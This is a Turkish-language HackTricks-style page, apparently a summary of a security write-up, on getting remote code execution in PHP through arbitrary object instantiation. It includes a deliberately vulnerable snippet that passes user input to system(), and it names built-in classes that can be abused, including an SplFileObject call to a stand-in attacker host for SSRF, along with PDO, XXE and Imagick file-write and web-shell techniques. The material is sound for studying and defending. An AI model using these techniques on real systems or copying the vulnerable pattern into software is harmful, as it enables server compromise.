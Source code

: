 # PHP - RCE nesne oluşturma istismarı: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Bu, temelde [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) adresinin bir özetidir.

## Giriş

`new $_GET["a"]($_GET["a"])` gibi yeni rastgele nesnelerin oluşturulması, [**yazım**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)da detaylandırıldığı gibi, Uzaktan Kod Yürütme (RCE) ile sonuçlanabilir. Bu belge, RCE elde etme için çeşitli stratejileri vurgulamaktadır.

## Özel Sınıflar veya Otomatik Yükleme ile RCE

`new $a($b)` sözdizimi, **`$a`** sınıf adını ve **`$b`** yapıcıya geçirilen ilk argümanı temsil eden bir nesne oluşturmak için kullanılır. Bu değişkenler, GET/POST gibi kullanıcı girdilerinden, string veya dizi olarak veya JSON'dan, diğer türler olarak elde edilebilir.

Aşağıdaki kod parçasını düşünün:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Bu durumda, `$a`'yı `App` veya `App2` ve `$b`'yi bir sistem komutuna (örneğin, `uname -a`) ayarlamak, o komutun çalıştırılmasına neden olur.

**Otomatik yükleme fonksiyonları**, doğrudan erişilebilen böyle sınıflar yoksa istismar edilebilir. Bu fonksiyonlar, ihtiyaç duyulduğunda dosyalardan sınıfları otomatik olarak yükler ve `spl_autoload_register` veya `__autoload` kullanılarak tanımlanır:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Otomatik yüklemenin davranışı PHP sürümlerine göre değişiklik gösterir ve farklı RCE olasılıkları sunar.

## Yerleşik Sınıflar ile RCE

Özel sınıflar veya otomatik yükleyiciler yoksa, **yerleşik PHP sınıfları** RCE için yeterli olabilir. Bu sınıfların sayısı PHP sürümüne ve uzantılara bağlı olarak 100 ile 200 arasında değişir. `get_declared_classes()` kullanılarak listelenebilirler.

İlgili yapıcılar, aşağıdaki örnekte ve bağlantıda gösterildiği gibi, yansıma API'si aracılığıyla tanımlanabilir: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Belirli yöntemler aracılığıyla RCE şunları içerir:**

### **SSRF + Phar Deserialization**

`SplFileObject` sınıfı, yapıcısı aracılığıyla SSRF'yi etkinleştirir ve herhangi bir URL'ye bağlantılara izin verir:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, Phar protokolünü kullanan PHP'nin 8.0'dan önceki sürümlerinde deserialization saldırılarına yol açabilir.

### **PDO'ların Sömürülmesi**

PDO sınıfı yapıcı, DSN dizeleri aracılığıyla veritabanlarına bağlantılara izin verir, bu da dosya oluşturma veya diğer etkileşimleri mümkün kılabilir:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP'nin 5.3.22 ve 5.4.12 sürümleri, `SoapClient` ve `SimpleXMLElement` yapıcıları aracılığıyla XXE saldırılarına karşı hassastı, bu durum libxml2 sürümüne bağlıydı.

## RCE via Imagick Extension

**Projenin bağımlılıkları** analizi sırasında, **Imagick**'in yeni nesne örnekleri oluşturarak **komut yürütme** için kullanılabileceği keşfedildi. Bu, güvenlik açıklarını istismar etme fırsatı sunar.

### VID parser

Dosya sisteminde belirtilen herhangi bir yola içerik yazma yeteneğine sahip VID parser'ın varlığı tespit edildi. Bu, web erişimine açık bir dizine bir PHP shell yerleştirilmesine yol açabilir ve Uzak Kod Yürütme (RCE) sağlanabilir.

#### VID Parser + File Upload

PHP'nin yüklenen dosyaları geçici olarak `/tmp/phpXXXXXX` dizininde sakladığı belirtilmiştir. Imagick'teki VID parser, **msl** protokolünü kullanarak dosya yollarında joker karakterleri işleyebilir ve geçici dosyayı seçilen bir konuma taşıyabilir. Bu yöntem, dosya sisteminde keyfi dosya yazma elde etmek için ek bir yaklaşım sunar.

### PHP Crash + Brute Force

[**orijinal yazımda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) tanımlanan bir yöntem, silinmeden önce bir sunucu çökmesine neden olan dosyaların yüklenmesini içerir. Geçici dosyanın adını brute-force ile tahmin ederek, Imagick'in keyfi PHP kodu yürütmesi mümkün hale gelir. Ancak, bu tekniğin yalnızca eski bir ImageMagick sürümünde etkili olduğu bulunmuştur.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
